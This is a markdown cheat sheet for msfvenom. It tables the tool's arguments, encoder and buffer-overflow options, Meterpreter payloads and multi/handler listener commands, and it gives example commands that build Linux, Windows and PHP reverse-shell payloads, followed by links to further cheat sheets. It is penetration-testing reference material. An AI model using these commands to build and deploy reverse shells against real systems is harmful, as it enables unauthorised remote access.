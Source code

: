 # MSFVenom

## Payload Generation

> ### Arguments
>
> |       Argument       |     Usage      |            Options            |
> | :------------------: | :------------: | :---------------------------: |
> |     List Modules     |       -l       |          moduletype           |
> | List Payload Options | --list-options |                               |
> |       Payload        |       -p       |            payload            |
> |       Host IP        |     LHOST=     |              IP               |
> |   Host Listen Port   |     LPORT=     |             port              |
> |        Format        |       -f       |            format             |
> |    Output to File    |       -o       |           filename            |
> |        Encode        |       -e       |        shikata_ga_nai         |
> |  Encoder Iterations  |       -i       |         iterationsnum         |
> |    Exit Function     |   EXITFUNC=    |   thread (buffer overflow)    |
> |    Bad Characters    |       -b       |  charlist (buffer overflow)   |
> |       NOPsled        |       -n       |  noplength (buffer overflow)  |
> |  Max Payload Space   |       -s       | payloadsize (buffer overflow) |
>
> ### List Options/Common Options
>
> | Argument |                                                             List Options/Common Options                                                              |
> | :------: | :--------------------------------------------------------------------------------------------------------------------------------------------------: |
> | Modules  |                                             payloads, encoders, nops, platforms, archs, encrypt, formats                                             |
> | Payloads | linux/\<arch\>/\<payload\>, windows/\<arch\>/\<payload\> - [full list](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9) |
> | Formats  |                                            raw (default), exe, msi, elf, war : run `-l formats' for more                                             |
>
> ### Meterpreter
>
> |  Staged Payload (requires special listener)   |   Unstaged Payload    |
> | :-------------------------------------------: | :-------------------: |
> | linux/x64/meterpreter_reverse_tcp/reverse_tcp | linux/x64/reverse_tcp |
>
> |   Meterpreter   |          Command          |
> | :-------------: | :-----------------------: |
> |   Use handler   | use exploit/multi/handler |
> |   Set Payload   |  set PAYLOAD \<payload\>   |
> | Set Remote Host |     Set RHOST \<rhost\>     |
> | Set Listen Host |     set LHOST \<lhost\>     |
> | Set Listen Port |     set LPORT \<lport\>     |
>
> ### Usage Examples
>
> - Linux Reverse Shell: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f elf -o shell.elf`
> - Windows Reverse Shell: `msfvenom -p windows/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f exe -o shell.exe`
> - PHP Reverse Shell: `msfvenom -p php/reverse_php LHOST=<Lhost\> LPORT=<lport\> -o shell.php`

> ### GUI
>
> - [Setup](https://www.offensive-security.com/metasploit-unleashed/msf-community-edition/)

## Cheatsheets

> - [HackTricks.xyz](https://book.hacktricks.xyz/shells/shells)
> - [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
> - [SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
> - [frizb/MSF-Venom-Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)
> - [Redteamtutorials.com](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
> - [Netsec.ws](https://netsec.ws/?p=331)
> - [Infinitelogins.com](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
> - [Thedarksource.com](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)
